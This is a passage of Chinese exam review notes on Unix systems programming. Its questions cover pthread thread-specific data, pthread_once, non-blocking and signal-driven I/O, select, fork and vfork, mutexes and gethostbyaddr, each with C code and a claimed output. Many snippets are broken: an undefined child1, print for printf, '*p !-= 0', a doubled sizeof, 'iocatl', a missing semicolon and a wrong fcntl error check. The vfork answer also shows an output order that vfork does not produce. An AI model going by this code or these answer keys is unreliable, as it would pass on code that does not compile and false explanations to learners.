      printf("enter printf function.\n");
  }

  void echomsg(int t) {
      printf("destructor excuted in thread %d, param = %d.\n", pthread_self(), t);
  }

  void *childfun1(void *arg){
      pthread_once(&once, printfun);
  }

  void *childfun2(void *arg) {
      pthread_once(&once, printfun);
      int tid = pthread_self();
      printf("thread %d enter.\n", tid);
      printf("the key's %d.\n", pthread_getspecific(key));
      pthread_setspecific(key, (void *)tid);
      sleep(2);
      printf("thread2 %d key's %d.\n", tid, pthread_getspecific(key));
      sleep(5);
  }

  int main(void) {
      pthread_t child_tid1, child_tid2;
      printf("the main tid is %d\n", pthread_self());
      //创建TSD关键字,key指向创建的关键字,echomsg为析构函数
      pthread_key_create(&key, (void *)echomsg);
      //
      pthread_create(&child_tid1, NULL, childfun1, NULL);
      pthread_join(child_tid1, NULL);
      pthread_create(&child_tid2, NULL, childfun2, NULL);
      sleep(10);
      pthread_join(child_tid2, NULL);
      pthread_key_delete(key);
      return 0;
  }
#+END_SRC

(1)运行结果是

#+BEGIN_SRC c
the main tid is 12345678
enter printf function.
thread 87654321 enter.
the key's 0
thread2 87654321 key's 87654321
destructor excuted in thread 87654321, param = 87654321.
#+END_SRC

程序实例运行结果:
#+BEGIN_SRC c
the main tid is -1875171584
enter printf function.
thread -1883236608 enter.
the key's 0.
thread2 -1883236608 key's -1883236608.
destructor excuted in thread -1883236608, param = -1883236608.
#+END_SRC


(2)解释pthread_create(&child_tid1, NULL, childfun1, NULL);完成的功能并解释各个函数的意思

创建一个子线程,将子线程tid返回到child_tid1,并使用系统默认属性, 执行childfun1,不传入参数

*** 16.

#+BEGIN_SRC c
  //省略头
  int main(void)
  {
      char buf[20];
      int num, flags;
      flags = fcntl(0, F_GETFL, 0);
      // 加入非阻塞标志
      flags |= O_NONBLOCK;
      //
      if(fcntl(0, F_SETFL, flags) == 1) {
          perror("fcntl");
          exit(1);
      }
      while(1) {
          num = read(0, buf, 20);
          if(errno == EWOULDBLOCK){
              perror("read:");
              write(1, "try again.\n", strlen("try again.\n"));
          }
          write(1, buf, num);
      }
      return 0;
  }

#+END_SRC

(1) 解释程序中flags = fcntl(0, F_GETFL, 0);语句完成的功能

获得0号描述符的文件描述符的标志,并赋值给flags

(2) 根据程序上下文, 完成空缺

(3) 解释程序fcntl(0, F_SETFL, flags);语句玩完成的功能

将新的文件描述符标志flags设置给0号描述符

(4) 判断该I/O模型是同步I/O还是异步I/O

同步I/O



*** 17.
解释下列语句完成的功能

(1) signal(SIGIO, ioaction)


(2) fcntl(sockfd, F_SETOWN, getpid()));

(3) ioctl(sockfd, FIOASYNC, &on); //已知on为整形 且on = 1


*** 18.
谈话程序

#+BEGIN_SRC c
  fd_set infds;

  for(;;) {
      //重置句柄集
      FD_ZERO(&infds);
      //把标准输入置入句柄集
      FD_SET(fileno(stdin), &infds);
      //把socket置入句柄集
      FD_SET(sockfd, &infds);
      //
      maxfd = max(fileno(stdin), sockfd) + 1;
      if (select(maxfd, &infds, NULL, NULL, NULL) == -1){
          //错误处理
      }
      if (FD_ISSET(sockfd, &infds)){ // 测试socket是否可读
          //读socket
      }
      if (FD_ISSET(fileno(stdin), &infds)) { //测试标准输入是否可读
          //读标准输入
      }
  }
#+END_SRC


*** 19.

非阻塞I/O的实现可以通过fcntl()来改变句柄(或描述符)的标志来实现
将句柄sockfd 设置为非阻塞的代码是

#+BEGIN_SRC c
  int flags;
  // 读句柄当前标志
  flags = fcntl(sockfd, F_GETFL, 0);
  // 加入非阻塞标志
  flags |= O_NONBLOCK;
  // 设置带有非阻塞的新标志
  fcntl(sockfd, F_SETFL, flags);
  //
#+END_SRC


*** 20.
gethostname 函数,该函数返回的是当前主机的名字,根据下面的程序进行填空

#+BEGIN_SRC c
  #include <unistd.h>

  int main(){
      char buf[100];
      size_t namelen;
      namelen = sizeof(buf);
      // 调用 gethostname函数
      gethostname(buf, namelen)
      //
      printf("host name is %s.\n", buf/*参数*/ ); // 补全输出 主机的名字
  }
#+END_SRC


*** 21.
信号驱动I/O的实现,要通过信号驱动方式对多个句柄进行复用,要通过如下几个步骤

- 将这些描述


信号驱动I/O的实现，要通过信号驱动方式对多个句柄进行复用，要通过如下几个步骤：
将这些句柄（描述符）的属主都设为一个进程。将这些句柄（描述符）的标志位O_ASYNC打开，让句柄（描述符）发生I/O时间时发送SIGIO信号。
在属主进程中设置对SIGIO信号的处理。当有I/O时间在任何一个句柄（描述符）上发生时，系统都会向进程发送SIGIO信号。
进程在对SIGIO的中断处理中再查询各个句柄（描述符）状态，进行相应的处理。
根据以上描述完成下面的程序填空。

#+BEGIN_SRC c
void ioaction(int signo) /*定义信号处理程序*/
{...}
int main (){
    stdinfd = fileno(stdin);
    //指定信号处理程序

    //句柄（描述符）所有者为i当前进程

    //
    int on  = 1;
    iocatl(sockfd, FIOASYNC, &on); /*sockfd 发生I/O事件时发送SIGIO信号*/
    for (;;){
        n = read(stdinfd, msg, BUFLEN);/*可能阻塞*/
    }
}

#+END_SRC


运行结果：


*** 22.
#+BEGIN_SRC c
int main (void){
    pid_t pid;
    int status;
    if((pid = fork()) == 0){
        sleep(2);
        printf("child running.\n");
        printf("child sleeping.\n");
        sleep(5);
        printf("child Dead.\n");
        exit(0);
    }else if (pid > 0){
        printf("parent running.\n");
        printf("parent exit\n");
        exit(0);
    }else {
        printf("fork error.\n");
        exit(1);
    }
}

#+END_SRC
运行结果是:

#+BEGIN_SRC
parent running.
parent exit.
child running.
child sleeping
child dead.
#+END_SRC

*** 23.
#+BEGIN_SRC c
#include <sys/types.h>
#include <unistd.h>

int main (void){
    pid_t pid;
    int status;
    if ((pid = vfork()) == 0){
        sleep(2);
        printf("child running.\n");
        printf("child sleeping.\n");
        sleep(5);
        printf("child dead.\n");
        exit(0);
    }else if (pid > 0){
        printf("parent running.\n");
        printf("parent exit.\n");
        exit(0);
    }else {
        printf("fork error.\n");
        exit(0);
    }
}

#+END_SRC

运行结果：

#+BEGIN_SRC
parent running.
parent exit.
child running.
child sleeping
child dead.
#+END_SRC

*** 24.

#+BEGIN_SRC c
#include <pthread.h>
#include <stdio.h>

pthread_once_t once = PTHREAD_ONCE_INIT;
void once_run (void){
    printf("once_run in thread %d \n", pthread_self());
}
void *child (void *arg){
    int tid = pthread_self();
    printf("thread %d enter\n", tid);
    pthread_once (&once, once_run);
    printf("thread %d returns\n", tid);
}
void *child2 (void *arg){
    int tid = pthread_self();
    printf("thread %d enter\n", tid);
    pthread_once (&once, once_run);
    printf("thread %d returns\n", tid);
}

int main (void){
    int tid1, tid2;
    printf("hello\n");
    pthread_create(&tid1, NULL, child1, NULL);
    pthread_create(&tid2, NULL, child2, NULL);
    sleep(10);
    printf("main thread exit\n");
    return 0;
}
#+END_SRC

运行结果：
#+BEGIN_SRC
hello
thread 1 enter
once_run in thread 1
thread 1 returns
thread 2 enter
thread 2 returns
main thread exit
#+END_SRC


*** 25.
#+BEGIN_SRC c
#include <pthread.h>
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int myglobal;
pthread_mutex_t mymutex = PTHREAD_MUTEX_INITIALIZER;
void *thread_function(void *arg){
    int i, j;
    for (i = 0; i < 6; i++){
        pthread_mutex_lock(&mymutex);
        j = myglobal;
        j += 1;
        printf(".");
        fflush(stdout);
        sleep(1);
        myglobal = j;
        pthread_mutex_unlock(&mymutex);
    }
    return NULL;
}

int main (void){
    pthread_t mythread;
    int i;
    if (pthread_create(&mythread, NULL, thread_function, NULL)){
        printf("error creating thread.");
        abort();
    }
    for (i = 0; i < 6; i++){
        pthread_mutex_lock(&mymutex);
        myglobal += 1;
        pthread_mutex_unlock(&mymutex);
        printf("F");
        fflush(stdout);
        sleep(1);
    }
    if (pthread_join (mythread, NULL)){
        printf("error joining thread.");
        abort();
    }
    print("\n myglobal equals %d\n", myglobal);
    exit(0);
}

#+END_SRC
运行结果：
#+BEGIN_SRC
反正是6个F6个.
myglobal equals 12
#+END_SRC


*** 26.
#+BEGIN_SRC c

int main (int argc, const char **argv){
    ulong_t addr;
    struct hostent *hp;
    char **p;
    if (argc != 2){
        print("usage: %s IP-address\n", argv[0]);
        exit(1);
    }
    if((addr = inet_addr(argv[1])) == -1){
        printf("IP-address must be of the form a.b.c.d\n");
        exit(1);
    }
    hp = gethostbyaddr((char *)&addr, sizeof(addr), AF_INET);
    if (hp == NULL){
        printf("host information for %s not found\n", argv[1]);
        exit(1);
    }
    for (p = hp->h_addr_list; *p !-= 0; p++){
        struct in_addr in;
        char **q;
        memcpy(&in.s_addr, *p, sizeof(sizeof(in.s_addr));
        printf("%s\t%s",inet_ntoa(in), hp -> h_name);
        for (q = hp->h_aliases; *q != 0; q++){
            printf("%s", *q);
            exit(0);
        }
    }
    return 0;
}
#+END_SRC


执行 ./b 127.0.0.1 命令后，运行结果如下：
#+BEGIN_SRC
127.0.0.1     localhost
#+END_SRC
